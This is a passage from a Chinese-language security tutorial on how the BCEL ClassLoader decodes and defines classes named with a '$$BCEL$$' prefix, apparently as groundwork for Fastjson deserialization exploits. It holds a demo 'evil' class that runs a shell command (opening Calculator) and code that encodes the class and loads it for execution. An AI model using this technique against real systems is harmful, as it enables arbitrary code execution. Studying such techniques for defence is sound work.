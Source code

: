 ```java

    classes.put(class_name, cl);

    return cl;
  }
```

可以看到在该方法中，判断类名是否以`$$BCEL$$`开头，如果是，则调用`createClass()`方法得到一个 Java 类对象，最后通过`defineClass()`方法定义该类。

我们先写一个简单的恶意类 EvilDemo
```java
package com.fastjson.becl;

import java.io.IOException;

/**
 * Created by dotast on 2022/12/16 15:49
 */
public class EvilDemo {
    static{
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

再写一个利用 BECL 的 demo 类
```java
package com.fastjson.becl;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

/**
 * Created by dotast on 2022/12/16 15:46
 */
public class BeclDemo {
    public static void main(String[] args) throws Exception{
        JavaClass javaClass = Repository.lookupClass(EvilDemo.class);
        String byteCode = Utility.encode(javaClass.getBytes(), true);
        System.out.println(byteCode);
        new ClassLoader().loadClass("$$BCEL$$" + byteCode).newInstance();
    }
}
```
